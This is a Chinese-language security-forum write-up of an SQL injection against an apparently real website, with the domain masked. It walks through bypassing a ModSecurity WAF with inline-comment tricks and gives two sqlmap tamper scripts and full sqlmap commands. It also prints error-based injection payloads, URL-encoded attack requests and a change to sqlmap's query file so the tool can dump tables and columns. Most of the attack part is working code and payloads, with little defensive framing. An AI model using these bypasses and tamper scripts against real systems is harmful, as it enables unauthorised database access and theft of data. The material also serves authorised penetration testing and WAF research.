









# 一次注入实战引发的SQLMAP修改之路 - 先知社区

一次注入实战引发的SQLMAP修改之路

- - -

# 一、 前言

SQLmap的payload修改一般有两种方式:  
1、编写tamper  
2、修改/添加sqlmap的xml文件语句自定义payload

# 二、 注入点Fuzz

选中目标网站：[http://www.xxxx.com/journals\_desc.php?id=40](http://www.xxxx.com/journals_desc.php?id=40)  
单引号报错，对单引号进行转义，id=0=0测试回显正常，int型注入

[](https://xzfile.aliyuncs.com/media/upload/picture/20191128150651-a71aa4bc-11ad-1.png)

Order by 猜字段值为7  
Waf为Modsec，直接使用union select被拦截：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191128150707-b0415338-11ad-1.png)

```plain
Fuzz：
       单个union    #不拦截
       单个select    #不拦截
Union select  #拦截
union /**/ select #拦截
/*!00000union*/ select #内联注释，不拦截
/*!50000union*/ select 1,2,3,4,5,6,7
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191128150725-baf1a594-11ad-1.png)

此处应该是涉及到强弱类型转换的问题，int为强类型，猜测对应的字段为弱类型  
解决方法：  
\[1\]使用string方法、但单引号’ 被被转义了,所以该方法行不通  
\[2\]采用报错注入

# 三、 编写简单Tamper脚本绕过

（使用自带的modsecurityzeroversioned.py不能绕过）  
报错注入过程中，发现主要过滤关键词from和函数concat（）  
1、concat()被过滤:`concat()-->concat/**/()`  
对应tamper脚本concat2concatcomment.py如下：

```plain
#!/usr/bin/env python2
"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload.replace("CONCAT","CONCAT/**/")
```

2、from被过滤，`from`\-->`/*!44144from*/`  
对应tamper脚本from.py如下：

```plain
#!/usr/bin/env python2
"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload.replace("FROM","/*!44144FROM*/")
```

python sqlmap.py -u "[https://www.xxxx.com/journals\_desc.php?id=66](https://www.xxxx.com/journals_desc.php?id=66)" --level 3 --risk 3 -v 3 --tamper="from,concat2concatcomment" --force-ssl --technique=E

[](https://xzfile.aliyuncs.com/media/upload/picture/20191203115117-291b7916-1580-1.png)

`--dbs`读取（可以比对一下使用tamper脚本和使用tamper脚本后语句）  
payload in sqlmap:

```plain
AND (SELECT 8403 /*!44144FROM*/(SELECT COUNT(*),CONCAT/**/(0x716b707071,(SELECT REPEAT(0x34,1024)),0x71627a7a71,FLOOR(RAND(0)*2))x /*!44144FROM*/ INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191203114925-e65a320c-157f-1.png)

`--tables`读取，很遗憾，读取失败

[](https://xzfile.aliyuncs.com/media/upload/picture/20191128150750-ca51e544-11ad-1.png)

再次把它的payload拿到本地测试，也是行不通的。语句很长，需要慢慢fuzz究竟是哪里被拦截、组合、函数、关键字？  
但是，，，，坑的是竟然不是因为过滤引起的？？？？

# 四、 修改SQLmap的xml文件语句

实在不行了，去用手工注了出来，但是用SQLmap就是跑不出来？？？  
再去看一下SQLmap的payload是不是有问题，咋一看没什么大问题，所以我一开始也忽略了，卡了好久。也就是这里涉及到了直接修改SQLmap自带的语句。  
大家自行比较一下下面这两条语句看看能不能看出问题~  
1、

```plain
https://www.xxxx.com/journals_desc.php?id=40%20and%20updatexml/**/(1,concat/**//**/(0x7e,(select%20DISTINCT%20GROUP_CONCAT(table_name)/*!44144from*/%20%20%20information_schema.TABLES%20where%20table_schema=database())%20),1)
```

2、

```plain
https://www.xxxx.com/journals_desc.php?id=40%20and%20updatexml/**/(1,concat/**//**/(0x7e,(select%20DISTINCT%20GROUP_CONCAT(table_name)/*!44144from*/%20%20%20information_schema.`TABLES`%20where%20table_schema=database())%20),1)
```

下面讲几个概念  
\[1\]table和colums在mysql中是特殊字符  
\[2\]反引号是sql语言的转义字符  
\[3\]在mysql中的sql语句为了避免与系统冲突给表名加上反引号 ，（但在指定其他数据库时不能加，否则会被认作是表）

我们可以看到这里sqlmap的payload,对于information\_schema.tables中的tables并没有加反引号,指引到/xml/queries.xml

```plain
information_schema.tables --> information_schema.`tables`
```

当然，columns也需要修改

```plain
information_schema.columns --> information_schema.`columns`
```

修改之后跑表：

```plain
python sqlmap.py -u "https://www.xxxx.com/journals_desc.php?id=66" --level 3 --risk 3 -v 3 --tamper="from,concat2concatcomment"   --technique=E   -D mililink_main --tables
payload in sqlamp（比对一下payload，看看效果）:
66 AND (SELECT 9571 /*!44144FROM*/(SELECT COUNT(*),CONCAT/**/(0x716b7a6b71,(SELECT MID((IFNULL(CAST(table_name AS CHAR),0x20)),1,54) /*!44144FROM*/ INFORMATION_SCHEMA.`TABLES` WHERE table_schema IN (0x6d696c696c696e6b5f6d61696e) LIMIT 15,1),0x7171767071,FLOOR(RAND(0)*2))x /*!44144FROM*/ INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191128150800-d00c86a6-11ad-1.png)

跑列值也是一样的，就不多说了，直接上图

[](https://xzfile.aliyuncs.com/media/upload/picture/20191128150805-d34505f0-11ad-1.png)

五、 关于SQLmap自定义payload的一些思考  
SQLmap的payload修改，其实并不复杂。

tamper脚本的编写，可以参考上边的from.py和concat2concatcomment.py，它其实是有固定格式的。简单的自定义paylaod只需要在def tamper(payload, \*\*kwargs)函数中写入替换语句即可。可参考[https://payloads.online/archivers/2017-06-08/1](https://payloads.online/archivers/2017-06-08/1)

修改/添加sqlmap的xml文件语句来自定义payload。需要找到对应的xml文件，然后修改xml文件中的语句。  
查询语句在\\sqlmap\\data\\xml\\ queries.xml定义，若想自定义查询语句则只需要修改/添加想要执行的查询语句即可，如上边对INFORMATION\_SCHEMA.`TABLES`的修改  
不同的注入方式使用的语句则需要在对应的注入方式中的xml语句进行修改，在\\sqlmap\\data\\xml\\payloads\\文件下

[](https://xzfile.aliyuncs.com/media/upload/picture/20191128150815-d8ab5148-11ad-1.png)

假若我们需要修改error-base注入方式的payload，则需要在/xml/payload/error\_based.xml中修改
